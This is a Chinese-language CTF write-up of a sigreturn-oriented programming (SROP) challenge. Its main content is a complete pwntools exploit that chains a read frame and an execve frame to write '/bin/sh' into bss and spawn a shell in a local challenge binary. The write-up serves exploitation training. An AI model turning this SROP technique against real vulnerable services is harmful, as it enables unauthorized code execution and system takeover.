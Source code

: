 ![](/images/7ade6e09fc9fac9362da192afa8032fa.png)

要注意的是这两个都是系统调用的函数，所以可以控制 `rax` 的值来进行别的系统调用

程序还给了 gadget：

![](/images/b9762d3119a2ca34bf00e6e94de64e87.png)

控制了 rax 的值，很明显用来进行系统调用，<font style="background-color:#FBDE28;">而 0xF 是</font>`<font style="background-color:#FBDE28;">Sigreturn</font>`<font style="background-color:#FBDE28;">的系统调用号</font>

#### 解法一：利用 write 泄露的地址向栈上写/bin/sh
不同版本的 libc 栈上存的数据不一样，本地和远程环境不一定一样，动调结果可能没用

#### 解法二（通法）：将/bin/sh 写在 bss 段
同样都是要把`/bin/sh`写在某个地方来用，直接写到 bss 段就直接省去了获取栈地址的步骤

exp：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("",)
link=process("./srop")

bss=0x601030 #用来放"/bin/sh"的地址，bss段开头
syscall_addr=0x400517 #syscall的地址
sigreturn=p64(0x4004DA)+p64(syscall_addr) #Sigreturn系统调用

execve_frame=SigreturnFrame()
execve_frame.rax=constants.SYS_execve #当前系统中execve的系统调用号
execve_frame.rdi=bss #"/bin/sh"
execve_frame.rsi=0
execve_frame.rdx=0
execve_frame.rip=syscall_addr
fake_stack=b'/bin/sh\x00'+sigreturn+bytes(execve_frame)

read_frame=SigreturnFrame()
read_frame.rax=constants.SYS_read #当前系统中read的系统调用号
read_frame.rdi=0
read_frame.rsi=bss #将"/bin/sh"写入对应bss段位置
read_frame.rdx=len(fake_stack) #读入对应长度的字节
read_frame.rsp=bss+8 #把rsp移到"/bin/sh"后的sigreturn的位置
read_frame.rip=syscall_addr #系统调用

payload=b'a'*0x10
payload+=sigreturn+bytes(read_frame)

# gdb.attach(link)

# pause()
link.send(payload)
# pause()
link.send(fake_stack)

link.interactive()
```

